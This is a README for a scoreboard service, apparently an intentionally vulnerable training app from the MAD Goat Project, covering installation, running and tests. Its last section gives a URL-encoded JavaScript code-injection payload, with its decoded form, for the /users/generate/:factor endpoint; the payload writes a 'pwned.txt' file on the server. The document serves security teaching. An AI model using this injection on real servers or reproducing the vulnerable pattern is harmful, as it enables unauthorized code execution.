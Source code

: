 # Mad Scoreboard Service
## Description

This is a service that generates a list of users with a score. The score is generated randomly and the list is sorted by the score. The list is returned as a JSON object.

## Installation

### Consuming npm packages from GitHub's NPM registry
This project uses a package from the @MAD-Goat-Project organization's GitHub Package Registry.

To consume npm packages from GitHub's NPM registry follow these steps:
- Create a personal access token with the read:packages scope.
- Create or edit an existing ~/.npmrc file to include the following line, replacing TOKEN with your personal access token:
  -  //npm.pkg.github.com/:_authToken=TOKEN
- If needed, install the package using the standard yarn add command:
  - yarn add @OWNER/PACKAGE_NAME


An example of a .npmrc file that grants access to the @octokit npm organization:

```bash
@:registry=https://npm.pkg.github.com"
@MAD-Goat-Project:registry=https://npm.pkg.github.com
//npm.pkg.github.com/:_authToken=AUTH_TOKEN
```
Be careful while writing the organization name.

NPM is not case-sensitive, so it doesn't matter if you write @MAD-Goat-Project or @mad-goat-project.

But yarn is case-sensitive, so you have to write @MAD-Goat-Project.

### Installing dependencies
```bash
$ yarn
```

## Running the app

```bash
# development
$ yarn run start

# watch mode
$ yarn run start:dev

# production mode
$ yarn run start:prod
```

## Test

```bash
# unit tests
$ yarn run test

# e2e tests
$ yarn run test:e2e

# test coverage
$ yarn run test:cov
```

 ## Example of a malicious payload
GET : {{BaseURL}}:{{Port}}/users/generate/:factor
where factor is:

 ```bash
var%20fs%3Drequire%28%22fs%22%29%2Cstream%3Dfs.createWriteStream%28%22pwned.txt%22%2C%7Bflags%3A%22w%22%7D%29%3Bconst%20megabyte%3D%221000000%22%2CoutputStr%3D%22yougotpwned%22%3Bfor%28var%20i%3D0%3Bi%3Cmegabyte%2FoutputStr.length%3Bi%2B%2B%29%20%7Bstream.write%28%22yougotpwned%22%29%3B%7Dstream.end%28%29%3B
 ```

This malicious payload will create a file named pwned.txt in the root directory of the server.
Corresponds to this JavaScript code:

```bash
var fs=require("fs"),stream=fs.createWriteStream("pwned.txt",{flags:"w"});const megabyte="1000000",outputStr="yougotpwned";for(var i=0;i<megabyte/outputStr.length;i++) {stream.write("yougotpwned");}stream.end();
```

